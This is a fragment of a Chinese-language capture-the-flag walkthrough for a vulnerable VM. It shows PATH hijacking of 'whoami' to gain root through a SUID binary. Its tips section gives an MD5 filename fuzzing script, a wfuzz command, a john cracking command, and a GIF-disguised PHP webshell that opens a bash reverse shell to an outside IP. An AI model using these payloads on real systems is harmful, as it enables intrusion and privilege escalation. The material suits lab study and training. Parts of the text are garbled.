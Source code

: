 vi whoami.c 
gcc -o whoami whoami.c
chmod +x whoami


查看搜索路径：
echo $PATH
/home/hummingbirdscyber/bin:/home/hummingbirdscyber/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

发现：
/home/hummingbirdscyber/bin

命令劫持：
mkdir bin
mv whoami bin/
which whoami


命令劫持后再运行a.out：
/home/hummingbirdscyber/Desktop/a.out

hummingbirdscyber@vulnvm:~$ /home/hummingbirdscyber/Desktop/a.out
root@vulnvm:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),128(sambashare),129(docker),1000(hummingbirdscyber)

成功获得root权限！


--------------------------------------------
--------------------------------------------
12、知识拓展

1）MD5随机脚本 php

-----
<?php
for ($i = 1; $i <= 100; $i++){
	echo md5("shell.php" .$i);
	echo "\r\n";
}
-----
然后：
wfuzz -w test.txt --hc 404 http://localhost:8000/uploads/FUZZ.php


2）john针对MD5进行爆破

john -format=RAW-md5 1

3）webshell-payload方法拓展

GIF89a
 <? php exec ( "/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/443 0>&1'" ); ?> 


4）MSF思路教学
